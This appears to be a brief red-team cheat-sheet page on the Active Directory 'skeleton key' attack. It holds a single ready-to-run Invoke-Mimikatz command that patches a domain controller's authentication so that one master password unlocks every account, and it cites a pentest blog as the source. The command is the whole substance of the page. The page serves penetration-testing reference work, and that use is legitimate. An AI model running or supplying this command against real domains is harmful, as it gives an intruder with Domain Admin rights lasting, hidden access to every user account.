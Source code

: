 # 🚒 Skeleton Keys

### **Create the skeleton key - Requires DA**

```
Invoke-MimiKatz -Command '"privilege::debug" "misc::skeleton"' -Computername <target>
```

### Sources

{% embed url="https://pentestlab.blog/2018/04/10/skeleton-key/" %}
